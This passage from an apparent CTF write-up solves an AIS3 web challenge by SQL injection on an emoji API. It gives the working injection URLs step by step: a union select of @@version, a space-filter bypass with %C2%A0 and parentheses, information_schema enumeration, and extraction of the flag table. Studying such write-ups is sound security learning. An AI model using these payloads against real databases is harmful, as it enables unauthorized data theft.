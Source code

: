 ```python
@app.route("/source")
def source():
    return send_file(__file__, mimetype="text/plain")

```

So, seems like we need to do SQLi without the space.

Try get all cats:
![](https://i.imgur.com/lv9FxKy.png)

It told us hint is in the `secret_cat` emoji.

But we don't have its id. So SQLi time:
<http://chals1.ais3.org:9487/api/emoji/(128006)or(id=3)>

![](https://i.imgur.com/1QQ7WUO.png)

`FLAG is in other table`, so we need to know what kind of db is this to do more.

<http://chals1.ais3.org:9487/api/emoji/(12800996)union(SELECT+1,2,1,@@version,null)>

Through `@@version`, we knew it's SQL Server.
![](https://i.imgur.com/fQnkQtk.png)

So we can bypass space with `%C2%A0` and some parentheses.
This will show table_schema, table_name, and column_name, but only first table because of the `fetchone()` in source code. And the first table is `Emoji`. So that's not table we need.
[http://chals1.ais3.org:9487/api/emoji/(12800996)union(SeLECT(1),concat_ws(0x3a,table_schema,table_name,column_name),(''),(''),('1')%C2%A0from.information_schema.columns)](<http://chals1.ais3.org:9487/api/emoji/(12800996)union(SeLECT(1),concat_ws(0x3a,table_schema,table_name,column_name),(''),(''),('1')%C2%A0from.information_schema.columns)>)

So let's skip `Emoji` table by `WHERE`.
[http://chals1.ais3.org:9487/api/emoji/(12800996)union(SeLECT(1),concat_ws(0x3a,table_schema,table_name,column_name),(''),(''),('1')%C2%A0from.information_schema."columns"where"table_name"!='Emoji')](<http://chals1.ais3.org:9487/api/emoji/(12800996)union(SeLECT(1),concat_ws(0x3a,table_schema,table_name,column_name),(''),(''),('1')%C2%A0from.information_schema."columns"where"table_name"!='Emoji')>)
![](https://i.imgur.com/TebGMb8.png)

Found a table and column seems has flag, so let's select it.
[http://chals1.ais3.org:9487/api/emoji/(12800996)union(SeLECT(1),(m1ght_be_th3_f14g),(''),(''),('1')%C2%A0from.s3cr3t_fl4g_in_th1s_t4bl3)](<http://chals1.ais3.org:9487/api/emoji/(12800996)union(SeLECT(1),(m1ght_be_th3_f14g),(''),(''),('1')%C2%A0from.s3cr3t_fl4g_in_th1s_t4bl3)>)
![](https://i.imgur.com/L0bDRj8.png)

Got the flag successfully!

### Private Browsing

> Solved 4/292
> Interest ★★☆
> Difficulty ★★★
> New-knowledge ★★★
> What-a-pity ★★★
